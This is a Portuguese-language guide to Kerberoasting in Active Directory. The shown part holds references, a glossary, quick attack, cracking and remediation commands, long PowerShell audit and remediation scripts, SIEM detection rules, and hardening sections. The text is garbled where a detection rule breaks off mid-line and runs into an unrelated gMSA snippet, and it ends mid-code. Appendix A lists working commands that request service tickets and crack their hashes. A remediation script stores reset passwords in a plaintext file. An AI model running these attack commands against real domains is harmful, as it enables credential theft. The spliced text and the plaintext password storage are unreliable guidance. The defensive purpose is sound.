2. NIST. (2017). **SP 800-63B - Digital Identity Guidelines: Authentication and Lifecycle Management**.

3. CIS. (2023). **CIS Microsoft Windows Server Benchmark**. Center for Internet Security.

4. PCI Security Standards Council. (2022). **Payment Card Industry Data Security Standard (PCI DSS) v4.0**.

## 13.4 Apresentações de Segurança

1. Medin, T. (2014). **Attacking Microsoft Kerberos: Kicking the Guard Dog of Hades**. DerbyCon 4.0.

2. Metcalf, S. (2015). **Attacking Active Directory: 0 to 0.9**. Black Hat USA.

3. Schroeder, W., & Graeber, M. (2017). **An ACE Up the Sleeve: Designing Active Directory DACL Backdoors**. Black Hat USA.

4. Robbins, A. (2019). **BloodHound: Six Degrees of Domain Admin**. DEF CON 24.

## 13.5 Livros Recomendados

1. Metcalf, S., & Van Robaeys, B. (2020). **Active Directory Security Risk Assessment**. Independent Publication.

2. Schroeder, W. (2019). **The Dog Whisperer's Handbook: A Hacker's Guide to the BloodHound Galaxy**. SpecterOps.

3. Kim, P., & Allen, L. (2021). **Operator Handbook: Red Team + OSINT + Blue Team Reference**. Independent Publication.

4. Bertram, M. (2021). **Active Directory Security: Modern Defense Strategies**. Apress.

## 13.6 Ferramentas Open Source

1. **Rubeus** - https://github.com/GhostPack/Rubeus
   - Autor: Will Schroeder (@harmj0y)
   - Licença: BSD 3-Clause

2. **Impacket** - https://github.com/SecureAuthCorp/impacket
   - Autor: SecureAuth Corporation
   - Licença: Apache License 2.0 Modified

3. **PowerView** - https://github.com/PowerShellMafia/PowerSploit
   - Autor: Will Schroeder
   - Licença: BSD 3-Clause

4. **BloodHound** - https://github.com/BloodHoundAD/BloodHound
   - Autores: Andy Robbins, Rohan Vazarkar, Will Schroeder
   - Licença: GPL-3.0

5. **Hashcat** - https://hashcat.net/hashcat/
   - Autor: Jens Steube
   - Licença: MIT

## 13.7 Blogs e Recursos Online

1. **SpecterOps Blog** - https://posts.specterops.io/
   - Excelente conteúdo sobre AD security

2. **Harmj0y's Blog** - http://www.harmj0y.net/blog/
   - Deep dives técnicos em ataques AD

3. **ired.team** - https://www.ired.team/
   - Red teaming notes e técnicas

4. **ADSecurity.org** - https://adsecurity.org/
   - Sean Metcalf's Active Directory security research

5. **Microsoft Security Blog** - https://www.microsoft.com/security/blog/
   - Atualizações oficiais e best practices

---

# 14. Glossário de Termos

**Active Directory (AD)**: Serviço de diretório da Microsoft que armazena informações sobre objetos de rede e facilita autenticação e autorização.

**AES (Advanced Encryption Standard)**: Algoritmo de criptografia simétrica, mais seguro que RC4 para proteção de tickets Kerberos.

**AS-REP (Authentication Service Response)**: Resposta do Authentication Service contendo o TGT.

**AS-REQ (Authentication Service Request)**: Solicitação inicial de autenticação no protocolo Kerberos.

**Cracking**: Processo de quebrar hashes criptográficos para revelar senhas em texto claro.

**Domain Controller (DC)**: Servidor que responde a requisições de autenticação e verifica usuários em uma rede Windows.

**gMSA (Group Managed Service Account)**: Conta gerenciada automaticamente pelo AD com senha complexa rotacionada automaticamente.

**Hash**: Resultado de função criptográfica unidirecional aplicada a dados (como senhas).

**KDC (Key Distribution Center)**: Componente central do Kerberos responsável por emitir tickets.

**Kerberos**: Protocolo de autenticação de rede baseado em tickets e criptografia simétrica.

**Kerberoasting**: Técnica de ataque que extrai tickets TGS para cracking offline de senhas de service accounts.

**LDAP (Lightweight Directory Access Protocol)**: Protocolo para acessar e manter serviços de diretório distribuído.

**Lateral Movement**: Técnicas usadas por atacantes para se mover através de uma rede após comprometimento inicial.

**MSA (Managed Service Account)**: Versão mais simples de gMSA para servidor único.

**NTLM**: Protocolo de autenticação Microsoft mais antigo, hash usado em RC4.

**PAM (Privileged Access Management)**: Solução para gerenciar e auditar contas privilegiadas.

**Pass-the-Hash (PtH)**: Técnica que usa hash de senha para autenticação sem conhecer senha em texto claro.

**Pass-the-Ticket (PtT)**: Técnica que reutiliza tickets Kerberos válidos para autenticação.

**PBKDF2 (Password-Based Key Derivation Function 2)**: Função de derivação de chave usada em AES Kerberos.

**Principal**: Entidade (usuário ou serviço) no domínio Kerberos.

**RC4-HMAC**: Algoritmo de criptografia mais antigo e menos seguro usado em Kerberos.

**Red Team**: Equipe que simula ataques reais para testar defesas organizacionais.

**Service Principal Name (SPN)**: Identificador único de uma instância de serviço em AD.

**SIEM (Security Information and Event Management)**: Plataforma centralizada para análise de logs e detecção de ameaças.

**TGS (Ticket Granting Service)**: Componente do KDC que emite tickets de serviço.

**TGS-REP**: Resposta contendo o Service Ticket.

**TGS-REQ**: Solicitação de Service Ticket.

**TGT (Ticket Granting Ticket)**: Ticket inicial obtido após autenticação bem-sucedida.

**Ticket**: Estrutura de dados criptografada usada para autenticação no Kerberos.

---

# 15. Apêndices

## Apêndice A: Comandos Rápidos de Referência

**Enumeração:**
```powershell
# PowerShell
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName

# CMD
setspn -Q */*

# Impacket
python GetUserSPNs.py DOMAIN/user:pass -dc-ip 10.10.10.10
```

**Kerberoasting:**
```powershell
# Rubeus
Rubeus.exe kerberoast /outfile:hashes.txt

# PowerView
Invoke-Kerberoast -OutputFormat Hashcat | fl

# Impacket
python GetUserSPNs.py -request DOMAIN/user:pass -outputfile hashes.txt
```

**Cracking:**
```bash
# Hashcat RC4
hashcat -m 13100 -a 0 hashes.txt wordlist.txt

# Hashcat AES256
hashcat -m 19700 -a 0 hashes.txt wordlist.txt

# John the Ripper
john --format=krb5tgs --wordlist=wordlist.txt hashes.txt
```

**Detecção:**
```powershell
# Event ID 4769 analysis
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769} |
  Group-Object {$_.Properties[0].Value} |
  Where-Object {$_.Count -gt 10}
```

**Remediação:**
```powershell
# Forçar AES
Set-ADUser -Identity user -KerberosEncryptionType AES256

# Criar gMSA
New-ADServiceAccount -Name gMSA-Service -DNSHostName gMSA-Service.domain.local

# Reset senha
Set-ADAccountPassword -Identity user -Reset -NewPassword (ConvertTo-SecureString "NewP@ss123!" -AsPlainText -Force)

# Desabilitar RC4
Set-GPRegistryValue -Name "GPO" -Key "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Kerberos\Parameters" -ValueName "SupportedEncryptionTypes" -Type DWord -Value 24
```

### Apêndice B: Scripts Completos

**B.1 - Script de Auditoria Completa:**
```powershell
<#
.SYNOPSIS
    Auditoria completa de Kerberoasting vulnerabilities
.DESCRIPTION
    Identifica e classifica riscos de Kerberoasting no domínio
.AUTHOR
    Security Team
#>

function Invoke-KerberoastAudit {
    [CmdletBinding()]
    param(
        [string]$OutputPath = "C:\Audit",
        [switch]$ExportHTML,
        [switch]$SendEmail,
        [string]$SMTPServer,
        [string]$EmailTo
    )
    
    # Criar diretório de output
    if (!(Test-Path $OutputPath)) {
        New-Item -ItemType Directory -Path $OutputPath | Out-Null
    }
    
    $Timestamp = Get-Date -Format "yyyyMMdd_HHmmss"
    
    Write-Host "[*] Starting Kerberoasting Audit..." -ForegroundColor Cyan
    
    # 1. Coletar todas as contas com SPNs
    Write-Host "[*] Enumerating accounts with SPNs..." -ForegroundColor Yellow
    $SPNAccounts = Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties `
        ServicePrincipalName, PasswordLastSet, PasswordNeverExpires, Enabled, `
        MemberOf, Description, Created, LastLogonDate, msDS-SupportedEncryptionTypes, `
        AdminCount, PasswordExpired
    
    Write-Host "[+] Found $($SPNAccounts.Count) accounts with SPNs" -ForegroundColor Green
    
    # 2. Análise detalhada
    $Results = @()
    $Critical = 0
    $High = 0
    $Medium = 0
    $Low = 0
    
    foreach ($account in $SPNAccounts) {
        Write-Host "[*] Analyzing $($account.SamAccountName)..." -ForegroundColor Gray
        
        # Calcular idade da senha
        if ($account.PasswordLastSet) {
            $PasswordAge = (New-TimeSpan -Start $account.PasswordLastSet -End (Get-Date)).Days
        } else {
            $PasswordAge = 9999
        }
        
        # Verificar encryption types
        $EncTypes = $account.'msDS-SupportedEncryptionTypes'
        $UsesRC4 = $false
        $UsesAES = $false
        
        if ($EncTypes -eq $null) {
            $UsesRC4 = $true
            $EncTypeString = "Default (RC4)"
        } else {
            if ($EncTypes -band 0x04) { $UsesRC4 = $true }
            if ($EncTypes -band 0x08) { $UsesAES = $true; $EncTypeString = "AES128" }
            if ($EncTypes -band 0x10) { $UsesAES = $true; $EncTypeString = "AES256" }
            if ($UsesRC4 -and !$UsesAES) { $EncTypeString = "RC4 Only" }
            if ($UsesRC4 -and $UsesAES) { $EncTypeString = "RC4 + AES (Vulnerable to downgrade)" }
        }
        
        # Verificar privilégios
        $HighPrivileged = $false
        $PrivilegeLevel = "Standard"
        $PrivilegedGroups = @()
        
        if ($account.MemberOf) {
            foreach ($group in $account.MemberOf) {
                if ($group -match "Domain Admins|Enterprise Admins|Schema Admins") {
                    $HighPrivileged = $true
                    $PrivilegeLevel = "Critical"
                    $PrivilegedGroups += $group -replace '^CN=([^,]+).*','$1'
                } elseif ($group -match "Account Operators|Backup Operators|Server Operators|Print Operators") {
                    $HighPrivileged = $true
                    $PrivilegeLevel = "High"
                    $PrivilegedGroups += $group -replace '^CN=([^,]+).*','$1'
                }
            }
        }
        
        # AdminCount indica objeto protegido
        if ($account.AdminCount -eq 1) {
            $HighPrivileged = $true
            if ($PrivilegeLevel -eq "Standard") { $PrivilegeLevel = "High" }
        }
        
        # Calcular Risk Score
        $RiskScore = 0
        $RiskFactors = @()
        
        if ($PasswordAge -gt 730) { 
            $RiskScore += 50
            $RiskFactors += "Password >2 years old"
        } elseif ($PasswordAge -gt 365) { 
            $RiskScore += 30
            $RiskFactors += "Password >1 year old"
        } elseif ($PasswordAge -gt 180) { 
            $RiskScore += 15
            $RiskFactors += "Password >6 months old"
        }
        
        if ($UsesRC4) { 
            $RiskScore += 25
            $RiskFactors += "Uses RC4 encryption"
        }
        
        if ($HighPrivileged) { 
            $RiskScore += 30
            $RiskFactors += "Highly privileged account"
        }
        
        if ($account.PasswordNeverExpires) { 
            $RiskScore += 15
            $RiskFactors += "Password never expires"
        }
        
        if (!$account.LastLogonDate -or (New-TimeSpan -Start $account.LastLogonDate -End (Get-Date)).Days -gt 90) {
            $RiskScore += 10
            $RiskFactors += "Inactive account (>90 days)"
        }
        
        # Classificar risco
        if ($RiskScore -ge 70) { 
            $RiskLevel = "CRITICAL"
            $Critical++
        } elseif ($RiskScore -ge 50) { 
            $RiskLevel = "HIGH"
            $High++
        } elseif ($RiskScore -ge 30) { 
            $RiskLevel = "MEDIUM"
            $Medium++
        } else { 
            $RiskLevel = "LOW"
            $Low++
        }
        
        # Recomendações
        $Recommendations = @()
        if ($UsesRC4) { $Recommendations += "Force AES encryption" }
        if ($PasswordAge -gt 365) { $Recommendations += "Reset password immediately" }
        if ($HighPrivileged) { $Recommendations += "Remove unnecessary privileges" }
        if ($account.PasswordNeverExpires) { $Recommendations += "Enable password expiration" }
        $Recommendations += "Migrate to gMSA if possible"
        
        # Criar objeto de resultado
        $Results += [PSCustomObject]@{
            SamAccountName = $account.SamAccountName
            DisplayName = $account.Name
            SPNs = ($account.ServicePrincipalName -join "; ")
            PasswordAge = $PasswordAge
            PasswordLastSet = $account.PasswordLastSet
            PasswordNeverExpires = $account.PasswordNeverExpires
            EncryptionType = $EncTypeString
            UsesRC4 = $UsesRC4
            PrivilegeLevel = $PrivilegeLevel
            PrivilegedGroups = ($PrivilegedGroups -join ", ")
            LastLogon = $account.LastLogonDate
            Enabled = $account.Enabled
            Created = $account.Created
            RiskScore = $RiskScore
            RiskLevel = $RiskLevel
            RiskFactors = ($RiskFactors -join "; ")
            Recommendations = ($Recommendations -join "; ")
        }
    }
    
    # 3. Exportar resultados
    Write-Host "`n[*] Exporting results..." -ForegroundColor Yellow
    
    $CSVPath = Join-Path $OutputPath "KerberoastAudit_$Timestamp.csv"
    $Results | Export-Csv -Path $CSVPath -NoTypeInformation
    Write-Host "[+] CSV exported to: $CSVPath" -ForegroundColor Green
    
    # 4. Gerar relatório HTML
    if ($ExportHTML) {
        $HTMLPath = Join-Path $OutputPath "KerberoastAudit_$Timestamp.html"
        
        $HTML = @"
<!DOCTYPE html>
<html>
<head>
    <title>Kerberoasting Audit Report - $Timestamp</title>
    <style>
        body { font-family: Arial, sans-serif; margin: 20px; background-color: #f5f5f5; }
        h1 { color: #333; border-bottom: 3px solid #007acc; padding-bottom: 10px; }
        .summary { background: white; padding: 20px; border-radius: 5px; margin-bottom: 20px; box-shadow: 0 2px 4px rgba(0,0,0,0.1); }
        .summary-box { display: inline-block; margin: 10px 20px; text-align: center; }
        .summary-number { font-size: 48px; font-weight: bold; }
        .critical { color: #d32f2f; }
        .high { color: #f57c00; }
        .medium { color: #fbc02d; }
        .low { color: #388e3c; }
        table { width: 100%; border-collapse: collapse; background: white; box-shadow: 0 2px 4px rgba(0,0,0,0.1); }
        th { background-color: #007acc; color: white; padding: 12px; text-align: left; }
        td { padding: 10px; border-bottom: 1px solid #ddd; }
        tr:hover { background-color: #f5f5f5; }
        .risk-critical { background-color: #ffebee; }
        .risk-high { background-color: #fff3e0; }
        .risk-medium { background-color: #fffde7; }
        .risk-low { background-color: #e8f5e9; }
    </style>
</head>
<body>
    <h1>Kerberoasting Security Audit Report</h1>
    <div class="summary">
        <h2>Executive Summary</h2>
        <p>Generated: $(Get-Date -Format "yyyy-MM-dd HH:mm:ss")</p>
        <p>Total Accounts with SPNs: <strong>$($SPNAccounts.Count)</strong></p>
        <div class="summary-box">
            <div class="summary-number critical">$Critical</div>
            <div>Critical Risk</div>
        </div>
        <div class="summary-box">
            <div class="summary-number high">$High</div>
            <div>High Risk</div>
        </div>
        <div class="summary-box">
            <div class="summary-number medium">$Medium</div>
            <div>Medium Risk</div>
        </div>
        <div class="summary-box">
            <div class="summary-number low">$Low</div>
            <div>Low Risk</div>
        </div>
    </div>
    
    <h2>Detailed Findings</h2>
    <table>
        <tr>
            <th>Account</th>
            <th>Risk Level</th>
            <th>Risk Score</th>
            <th>Password Age (days)</th>
            <th>Encryption</th>
            <th>Privilege Level</th>
            <th>Risk Factors</th>
            <th>Recommendations</th>
        </tr>
"@
        
        foreach ($result in ($Results | Sort-Object RiskScore -Descending)) {
            $rowClass = switch ($result.RiskLevel) {
                "CRITICAL" { "risk-critical" }
                "HIGH" { "risk-high" }
                "MEDIUM" { "risk-medium" }
                "LOW" { "risk-low" }
            }
            
            $HTML += @"
        <tr class="$rowClass">
            <td><strong>$($result.SamAccountName)</strong></td>
            <td><strong>$($result.RiskLevel)</strong></td>
            <td>$($result.RiskScore)/100</td>
            <td>$($result.PasswordAge)</td>
            <td>$($result.EncryptionType)</td>
            <td>$($result.PrivilegeLevel)</td>
            <td>$($result.RiskFactors)</td>
            <td>$($result.Recommendations)</td>
        </tr>
"@
        }
        
        $HTML += @"
    </table>
</body>
</html>
"@
        
        $HTML | Out-File -FilePath $HTMLPath -Encoding UTF8
        Write-Host "[+] HTML report exported to: $HTMLPath" -ForegroundColor Green
    }
    
    # 5. Console Summary
    Write-Host "`n============================================" -ForegroundColor Cyan
    Write-Host "           AUDIT SUMMARY" -ForegroundColor Cyan
    Write-Host "============================================" -ForegroundColor Cyan
    Write-Host "Total Accounts: $($SPNAccounts.Count)" -ForegroundColor White
    Write-Host "Critical Risk:  " -NoNewline; Write-Host $Critical -ForegroundColor Red
    Write-Host "High Risk:      " -NoNewline; Write-Host $High -ForegroundColor DarkYellow
    Write-Host "Medium Risk:    " -NoNewline; Write-Host $Medium -ForegroundColor Yellow
    Write-Host "Low Risk:       " -NoNewline; Write-Host $Low -ForegroundColor Green
    Write-Host "============================================`n" -ForegroundColor Cyan
    
    # 6. Top 10 Critical Accounts
    Write-Host "[!] TOP 10 HIGHEST RISK ACCOUNTS:" -ForegroundColor Red
    $Results | Sort-Object RiskScore -Descending | Select-Object -First 10 | 
        Format-Table SamAccountName, RiskLevel, RiskScore, PasswordAge, EncryptionType -AutoSize
    
    # 7. Email report
    if ($SendEmail -and $SMTPServer -and $EmailTo) {
        Write-Host "[*] Sending email report..." -ForegroundColor Yellow
        
        $EmailBody = @"
Kerberoasting Security Audit Report

Generated: $(Get-Date -Format "yyyy-MM-dd HH:mm:ss")

SUMMARY:
--------
Total Accounts with SPNs: $($SPNAccounts.Count)
Critical Risk: $Critical
High Risk: $High
Medium Risk: $Medium
Low Risk: $Low

Please review the attached CSV report for detailed findings.

Top 5 Critical Accounts:
$($Results | Sort-Object RiskScore -Descending | Select-Object -First 5 | ForEach-Object { "- $($_.SamAccountName) (Score: $($_.RiskScore))" } | Out-String)

Immediate Actions Required:
- Review all CRITICAL and HIGH risk accounts
- Reset passwords for accounts with password age >365 days
- Disable RC4 encryption on all accounts
- Migrate eligible accounts to gMSA

Full report attached.
"@
        
        try {
            Send-MailMessage -To $EmailTo -From "security-audit@empresa.local" `
                -Subject "Kerberoasting Audit Report - $Critical Critical Findings" `
                -Body $EmailBody -SmtpServer $SMTPServer `
                -Attachments $CSVPath -Priority High
            Write-Host "[+] Email sent successfully" -ForegroundColor Green
        } catch {
            Write-Host "[-] Failed to send email: $_" -ForegroundColor Red
        }
    }
    
    return $Results
}

# Executar
# Invoke-KerberoastAudit -OutputPath "C:\SecurityAudit" -ExportHTML -SendEmail -SMTPServer "smtp.empresa.local" -EmailTo "security-team@empresa.local"
```

**B.2 - Script de Remediação Automatizada:**
```powershell
<#
.SYNOPSIS
    Remediação automatizada de vulnerabilidades Kerberoasting
.DESCRIPTION
    Aplica correções baseadas em auditoria prévia
.AUTHOR
    Security Team
#>

function Invoke-KerberoastRemediation {
    [CmdletBinding()]
    param(
        [Parameter(Mandatory)]
        [string]$AuditCSVPath,
        
        [switch]$ForceAES,
        [switch]$ResetPasswords,
        [switch]$RemovePrivileges,
        [switch]$CreateHoneyAccounts,
        [switch]$WhatIf,
        
        [int]$MinPasswordLength = 30,
        [string]$VaultPath = "C:\SecureVault"
    )
    
    if (!(Test-Path $VaultPath)) {
        New-Item -ItemType Directory -Path $VaultPath | Out-Null
    }
    
    # Carregar resultados da auditoria
    $AuditResults = Import-Csv $AuditCSVPath
    
    Write-Host "[*] Loaded $($AuditResults.Count) accounts from audit" -ForegroundColor Cyan
    
    # Filtrar contas de alto risco
    $HighRiskAccounts = $AuditResults | Where-Object { $_.RiskLevel -match "CRITICAL|HIGH" }
    
    Write-Host "[!] Found $($HighRiskAccounts.Count) high-risk accounts" -ForegroundColor Yellow
    
    $RemediationLog = @()
    
    foreach ($account in $HighRiskAccounts) {
        Write-Host "`n[*] Processing: $($account.SamAccountName)" -ForegroundColor Cyan
        
        $actions = @()
        
        # 1. Forçar AES
        if ($ForceAES -and $account.UsesRC4 -eq "True") {
            Write-Host "  [+] Forcing AES encryption..." -ForegroundColor Yellow
            
            if (!$WhatIf) {
                try {
                    Set-ADUser -Identity $account.SamAccountName -KerberosEncryptionType AES256
                    $actions += "Forced AES256 encryption"
                    Write-Host "  [✓] AES encryption enabled" -ForegroundColor Green
                } catch {
                    Write-Host "  [✗] Failed: $_" -ForegroundColor Red
                    $actions += "FAILED: AES encryption"
                }
            } else {
                Write-Host "  [WhatIf] Would force AES256" -ForegroundColor Gray
            }
        }
        
        # 2. Reset de senha
        if ($ResetPasswords -and [int]$account.PasswordAge -gt 365) {
            Write-Host "  [+] Resetting password..." -ForegroundColor Yellow
            
            if (!$WhatIf) {
                try {
                    # Gerar senha complexa
                    Add-Type -AssemblyName System.Web
                    $NewPassword = [System.Web.Security.Membership]::GeneratePassword($MinPasswordLength, 10)
                    
                    Set-ADAccountPassword -Identity $account.SamAccountName `
                        -NewPassword (ConvertTo-SecureString $NewPassword -AsPlainText -Force) -Reset
                    
                    # Salvar em vault
                    $VaultEntry = "$($account.SamAccountName),$NewPassword,$(Get-Date -Format 'yyyy-MM-dd HH:mm:ss')"
                    $VaultEntry | Out-File -FilePath (Join-Path $VaultPath "PasswordResets_$(Get-Date -Format 'yyyyMMdd').txt") -Append
                    
                    $actions += "Password reset (30+ chars)"
                    Write-Host "  [✓] Password reset and stored in vault" -ForegroundColor Green
                    Write-Host "  [!] UPDATE SERVICE CONFIGURATION MANUALLY" -ForegroundColor Red
                } catch {
                    Write-Host "  [✗] Failed: $_" -ForegroundColor Red
                    $actions += "FAILED: Password reset"
                }
            } else {
                Write-Host "  [WhatIf] Would reset password to $MinPasswordLength chars" -ForegroundColor Gray
            }
        }
        
        # 3. Remover privilégios excessivos
        if ($RemovePrivileges -and $account.PrivilegeLevel -match "Critical|High") {
            Write-Host "  [+] Reviewing privileges..." -ForegroundColor Yellow
            
            $user = Get-ADUser -Identity $account.SamAccountName -Properties MemberOf
            $dangerousGroups = $user.MemberOf | Where-Object { 
                $_ -match "Domain Admins|Enterprise Admins|Schema Admins"
            }
            
            if ($dangerousGroups) {
                Write-Host "  [!] Found membership in privileged groups:" -ForegroundColor Red
                $dangerousGroups | ForEach-Object { Write-Host "    - $_" -ForegroundColor Red }
                
                if (!$WhatIf) {
                    Write-Host "  [?] Remove from these groups? (Y/N)" -ForegroundColor Yellow
                    $confirmation = Read-Host
                    
                    if ($confirmation -eq 'Y') {
                        foreach ($group in $dangerousGroups) {
                            try {
                                $groupName = ($group -split ',')[0] -replace 'CN=',''
                                Remove-ADGroupMember -Identity $groupName -Members $account.SamAccountName -Confirm:$false
                                $actions += "Removed from $groupName"
                                Write-Host "  [✓] Removed from $groupName" -ForegroundColor Green
                            } catch {
                                Write-Host "  [✗] Failed to remove from $groupName" -ForegroundColor Red
                            }
                        }
                    }
                } else {
                    Write-Host "  [WhatIf] Would prompt to remove from privileged groups" -ForegroundColor Gray
                }
            }
        }
        
        # Registrar ações
        $RemediationLog += [PSCustomObject]@{
            Account = $account.SamAccountName
            Timestamp = Get-Date -Format "yyyy-MM-dd HH:mm:ss"
            Actions = ($actions -join "; ")
            OriginalRiskScore = $account.RiskScore
        }
    }
    
    # 4. Criar honey accounts
    if ($CreateHoneyAccounts) {
        Write-Host "`n[*] Creating honey service accounts..." -ForegroundColor Cyan
        
        $HoneyAccounts = @(
            @{Name="svc-backup-admin"; SPN="MSSQLSvc/honeypot-db01.empresa.local:1433"},
            @{Name="svc-web-admin"; SPN="HTTP/honeypot-web.empresa.local"},
            @{Name="svc-monitoring"; SPN="HOST/honeypot-mon.empresa.local"}
        )
        
        foreach ($honey in $HoneyAccounts) {
            if (!$WhatIf) {
                try {
                    $exists = Get-ADUser -Filter "SamAccountName -eq '$($honey.Name)'" -ErrorAction SilentlyContinue
                    if (!$exists) {
                        $HoneyPassword = [System.Web.Security.Membership]::GeneratePassword(40, 15)
                        
                        New-ADUser -Name $honey.Name -SamAccountName $honey.Name `
                            -AccountPassword (ConvertTo-SecureString $HoneyPassword -AsPlainText -Force) `
                            -Enabled $true `
                            -Description "HONEYPOT - DO NOT USE - Security Monitoring" `
                            -CannotChangePassword $true
                        
                        Set-ADUser -Identity $honey.Name -ServicePrincipalNames @{Add=$honey.SPN}
                        
                        Write-Host "  [✓] Created honey account: $($honey.Name)" -ForegroundColor Green
                        $RemediationLog += [PSCustomObject]@{
                            Account = $honey.Name
                            Timestamp = Get-Date -Format "yyyy-MM-dd HH:mm:ss"
                            Actions = "Created as honeypot"
                            OriginalRiskScore = 0
                        }
                    } else {
                        Write-Host "  [-] Honey account already exists: $($honey.Name)" -ForegroundColor Yellow
                    }
                } catch {
                    Write-Host "  [✗] Failed to create $($honey.Name): $_" -ForegroundColor Red
                }
            } else {
                Write-Host "  [WhatIf] Would create honey account: $($honey.Name)" -ForegroundColor Gray
            }
        }
    }
    
    # Exportar log de remediação
    $LogPath = Join-Path $VaultPath "RemediationLog_$(Get-Date -Format 'yyyyMMdd_HHmmss').csv"
    $RemediationLog | Export-Csv -Path $LogPath -NoTypeInformation
    
    Write-Host "`n[+] Remediation complete!" -ForegroundColor Green
    Write-Host "[+] Log saved to: $LogPath" -ForegroundColor Green
    Write-Host "[!] Remember to update service configurations with new passwords" -ForegroundColor Red
    
    return $RemediationLog
}

# Executar
# Invoke-KerberoastRemediation -AuditCSVPath "C:\SecurityAudit\KerberoastAudit_20241119.csv" -ForceAES -ResetPasswords -CreateHoneyAccounts -WhatIf
```

### Apêndice C: Regras SIEM/Detection

**C.1 - Splunk Query:**
```spl
index=windows EventCode=4769 
| eval service_name=mvindex(Service_Name, 0)
| where NOT like(service_name, "%$")
| stats count dc(service_name) as unique_services by Account_Name, src_ip
| where count > 15 OR unique_services > 10
| eval severity=case(
    count > 50, "critical",
    count > 30, "high",
    count > 15, "medium",
    1=1, "low"
)
| table _time, Account_Name, src_ip, count, unique_services, severity
| sort - count
```

**C.2 - Azure Sentinel KQL:**
```kusto
SecurityEvent
| where EventID == 4769
| where ServiceName !endswith "$"
| where TimeGenerated > ago(10m)
| summarize 
    RequestCount = count(),
    UniqueServices = dcount(ServiceName),
    Services = make_set(ServiceName)
    by Account, IpAddress, Computer
| where RequestCount > 10 or UniqueServices > 5
| extend Severity = case(
    RequestCount > 50, "High",
    RequestCount > 20, "Medium",
    "Low"
)
| project TimeGenerated, Account, IpAddress, RequestCount, UniqueServices, Severity, Services
| order by RequestCount desc
```

**C.3 - Elasticsearch Query:**
```json
{
  "query": {
    "bool": {
      "must": [
        { "match": { "event.code": "4769" }},
        { "range": { "@timestamp": { "gte": "now-5m" }}}
      ],
      "must_not": [
        { "wildcard": { "winlog.event_data.ServiceName": "*$" }}
      ]
    }
  },
  "aggs": {
    "by_user": {
      "terms": {
        "field": "winlog.event_data.TargetUserName.keyword",
        "size": 100
      },
      "aggs": {
        "service_count": {
          "cardinality": {
            "field": "winlog.event_data.ServiceName.keyword"
          }
        },
        "having_high_count": {
          "bucket_selector": {
            "buckets_path": {
              "count": "_count",
              "services": "service_count"
            },
            "script": "params.count > 10 || params.services > 5"
          }
        }
      }
    }
  }
}
```

**C.4 - Sigma Rule:**
```yaml
title: Kerberoasting Activity Detection
id: e5c8d9c2-41d4-4a6e-a1d4-7d5e4c3b2a1f
status: stable
description: Detects potential Kerberoasting attacks based on multiple TGS requests
references:
    - https://attack.mitre.org/techniques/T1558/003/
author: Security Team
date: 2024/01/01
modified: 2024/11/19
tags:
    - attack.credential_access
    - attack.t1558.003
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4769
        TicketEncryptionType: '0x17'  # RC4
    filter_computer_accounts:
        ServiceName|endswith: ' "gMSA-SQL01" `
  -DNSHostName "gMSA-SQL01.empresa.local" `
  -PrincipalsAllowedToRetrieveManagedPassword "SQL-Servers-Group" `
  -ServicePrincipalNames "MSSQLSvc/sql01.empresa.local:1433"

# Instalar gMSA em servidor
Install-ADServiceAccount -Identity "gMSA-SQL01"

# Testar
Test-ADServiceAccount -Identity "gMSA-SQL01"
```

**Limitações de gMSA:**
- Nem todas as aplicações suportam
- Requer Windows Server 2012+
- Não funciona para serviços em clusters de failover (usar gMSA com clustering support no Server 2012 R2+)

### 7.3 Desabilitar RC4 e Forçar AES

RC4 é significativamente mais vulnerável que AES. Forçar AES aumenta dramaticamente a dificuldade de cracking.

**Group Policy: Disable RC4**
```
Computer Configuration → Policies → Windows Settings → Security Settings → Local Policies → Security Options
→ Network security: Configure encryption types allowed for Kerberos
→ Habilitar apenas: AES128_HMAC_SHA1, AES256_HMAC_SHA1
```

**Via PowerShell:**
```powershell
Set-ADUser -Identity "svc-sql" -KerberosEncryptionType AES128,AES256

# Em massa
Get-ADUser -Filter {ServicePrincipalName -like "*"} | 
  Set-ADUser -KerberosEncryptionType AES128,AES256
```

**Verificar configuração:**
```powershell
Get-ADUser -Identity "svc-sql" -Properties msDS-SupportedEncryptionTypes

# Valores:
# 0x01: DES_CBC_CRC
# 0x02: DES_CBC_MD5
# 0x04: RC4_HMAC_MD5
# 0x08: AES128_CTS_HMAC_SHA1_96
# 0x10: AES256_CTS_HMAC_SHA1_96
```

**Considerações:**
- Testar antes de implementar em produção
- Alguns sistemas legados podem ter problemas com AES-only
- Garantir que DCs suportam AES (Server 2008+)

### 7.4 Auditoria e Monitoramento

**Habilitar Advanced Audit Policy:**
```powershell
# Via GPO ou auditpol
auditpol /set /subcategory:"Kerberos Service Ticket Operations" /success:enable /failure:enable
auditpol /set /subcategory:"Kerberos Authentication Service" /success:enable /failure:enable
```

**Group Policy Path:**
```
Computer Configuration → Policies → Windows Settings → Security Settings → Advanced Audit Policy Configuration
→ Account Logon → Audit Kerberos Service Ticket Operations: Success, Failure
→ Account Logon → Audit Kerberos Authentication Service: Success, Failure
```

**Configurar log retention:**
```powershell
# Aumentar tamanho do Security log
wevtutil sl Security /ms:4194304000  # 4GB

# Configurar forwarding para SIEM
wecutil cs /c:subscription.xml
```

**Alertas automatizados:**
```powershell
# Scheduled Task para verificar Event ID 4769
$Action = New-ScheduledTaskAction -Execute 'PowerShell.exe' -Argument '-File C:\Scripts\Check-Kerberoast.ps1'
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 15)
Register-ScheduledTask -TaskName "Kerberoast Detection" -Action $Action -Trigger $Trigger
```

### 7.5 Least Privilege para Service Accounts

**Princípios:**
- Service accounts devem ter apenas permissões necessárias
- NUNCA adicionar service accounts a Domain Admins
- Usar delegação de privilégios específicos

**Remover privilégios desnecessários:**
```powershell
# Identificar service accounts em grupos privilegiados
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties MemberOf | 
  Where-Object {$_.MemberOf -match "Domain Admins|Enterprise Admins|Schema Admins"} |
  Select-Object Name, SamAccountName, MemberOf

# Remover de grupos
Remove-ADGroupMember -Identity "Domain Admins" -Members "svc-sql" -Confirm:$false
```

**Implementar Role-Based Access Control (RBAC):**
```powershell
# Criar grupo específico para service account
New-ADGroup -Name "SQL-Service-Accounts-Permissions" -GroupScope DomainLocal

